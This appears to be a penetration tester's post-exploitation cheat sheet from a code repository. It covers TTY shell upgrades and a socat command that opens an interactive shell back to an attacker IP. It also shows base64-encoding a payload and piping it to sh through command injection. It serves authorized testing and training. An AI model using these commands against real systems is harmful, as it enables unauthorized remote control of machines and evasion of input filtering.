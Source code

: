# Post Exploitation Shell Cheat Sheet
All techniques that I use each day during penetration testing are in this module.
## Upgrading shell to a TTY
This section of this module focuses on how to upgrade your nonTTY shell using various methods and resources located on the target system.
### Using Python:
To use Python to upgrade to a TTY from your spanwed shell do,

`python -c 'import pty; pty.spawn("/bin/bash")'`

### Using SOCAT:
To use Socat, first start the listener on the attacker machine with,

`socat file:`tty`,raw,echo=0 tcp-listen:4444`

Then, start the bind from the target machine with,

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:(attacker IP):4444`

### Using STTY:
`reset`

`export SHELL=bash`

`export TERM=xterm-256color`

## Encoding HTTP Request with Shell Payload
If you encounter issues while trying to send a payload with command injection ot an HTTP request, you can attempt to use Base64 to encode the payload and decode it on the server before executing it as so,
```
root@attacker-machine:~# echo '(SHELL CODE)' | base64 
KFNIRUxMIENPREUpCg==
```
Then, send the payload to the command injection like so,
```
(COMMAND 1);echo KFNIRUxMIENPREUpCg== | base64 -d | sh
```
This will decode the Base64 and run it on the server.
